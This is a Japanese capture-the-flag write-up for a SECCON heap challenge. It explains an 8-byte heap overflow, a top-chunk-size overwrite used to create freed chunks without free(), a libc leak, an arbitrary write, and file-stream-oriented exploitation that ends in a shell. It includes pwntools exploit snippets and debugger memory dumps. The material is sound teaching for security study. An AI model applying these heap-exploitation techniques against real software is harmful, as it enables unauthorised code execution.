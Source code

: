 ### free-free free
いわゆるnote問っぽいheap exploit。release関数があるがfree()が呼ばれていない。

脆弱性はalloc関数でData構造体を確保するときに適切なサイズで確保されていないので、edit時に8bytesのheap overflowが発生する。  
free()がない、heap overflowが存在するの2条件からtop chunkのサイズを書き換えて無理やりfreedなchunkをheap上に作成するテクニック(house of orangeという手法の1パートだった気がする)を思いつく。

またalloc時に構造体を初期化していないので、Data->nextの位置にlibcのアドレスがある状態を作れる。
例えば以下を実行するとhead変数はlibcのアドレスを指すようになる。

```python
     id_x = alloc(0x400)
     free(id_x)
     id_x = alloc(0x400)
     free(id_x)
     id_x = alloc(0x400)
     edit(id_x,b'a'*0x3f8+p64(0x141)[:-1])       # overwrite top chunk size
     free(id_x)
 
     for i in range(7):
         for j in range(3):
             id_x = alloc(0x400)
             free(id_x)
         id_x = alloc(0x280)
         edit(id_x,b'a'*0x278+p64(0x141)[:-1])   # overwrite top chunk size
         free(id_x)
     id_x = alloc(0x400)
     free(id_x)
 
     id_x = alloc(0x20)                         # allocated from unsorted bin
     free(id_x)                                 # head->libc
```

```
gef> x/2gx &head
0x555555558040 <head>:  0x00007ffff7faeb40      0x0000000000000000
gef> x/20gx 0x7ffff7faeb40-0x40
0x7ffff7faeb00: 0x0000000000000000      0x0000000000000000
0x7ffff7faeb10: 0x0000000000000000      0x0000000000000000
0x7ffff7faeb20: 0x0000555555669410      0x0000555555647ef0
0x7ffff7faeb30: 0x0000555555647ef0      0x0000555555647ef0
0x7ffff7faeb40: 0x00007ffff7faeb30      0x00007ffff7faeb30
0x7ffff7faeb50: 0x00007ffff7faeb40      0x00007ffff7faeb40
0x7ffff7faeb60: 0x00007ffff7faeb50      0x00007ffff7faeb50
```

0x7ffff7faeb40はlibc内のアドレス(small bin)であり、また0x7ffff7faeb40をData構造体としてみると、bufに当たる0x7ffff7faeb50は自身を指しているので、この状態でeditを行うと(id=0x7fff, size=0xf7faeb30)、nextを編集することができてAAWが作れる。

show関数的なものがないが、edit&release時に存在しないIDを指定すると"Not found"が出力するoracleやedit時に`printf("data(%u): ",...)`を実行してくれているので、ここからlibcリーク&heapリークができる。

AAWができるのでFSOPをしてシェルを取得する。

```python
#!/usr/bin/python3
from pwn import *
import sys

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall.ptc"
#"""
HOST = "free3.seccon.games"
PORT = 8215
```